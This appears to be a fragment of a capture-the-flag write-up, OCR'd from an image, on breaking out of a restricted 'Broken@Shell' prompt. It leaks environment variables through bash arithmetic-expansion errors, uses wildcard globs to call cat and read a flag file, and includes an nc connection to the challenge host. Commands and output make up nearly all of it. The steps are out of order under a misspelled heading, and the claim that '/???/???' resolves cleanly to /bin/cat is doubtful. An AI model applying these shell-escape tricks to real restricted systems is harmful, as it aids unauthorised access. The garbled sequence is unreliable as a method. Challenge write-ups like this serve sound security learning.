 ```bash

# Let's assume the flag file is 'flag.txt' (8 characters)
# FLAG_GLOB=????????

# Step 4: Find cat
Broken@Shell$ CAT_CMD=/???/???
Broken@Shell$ $CAT_CMD "$?"
# Output: cat: 0: No such file or directory
# (This confirms CAT_CMD=/bin/cat is correct)

# Step 5: Read the flag
Broken@Shell$ $CAT_CMD ????????
# This should print the flag.

```

---

## Responswe

# Connect to the server
# nc -nv 94.237.120.71 34065

# Step 1: Leak environment variables
Broken@Shell$ $((PWD))
# Output: bash: /app: syntax error: invalid arithmetic operator (error token is "/app")
# (So, PWD is /app)

Broken@Shell$ $((SHELL))
# Output: bash: /bin/bash: syntax error: invalid arithmetic operator (error token is "/bin/bash")
# (So, SHELL is /bin/bash)

Broken@Shell$ $((PATH))
# Output: bash: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin: syntax error: invalid arithmetic operator (error token is "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin")
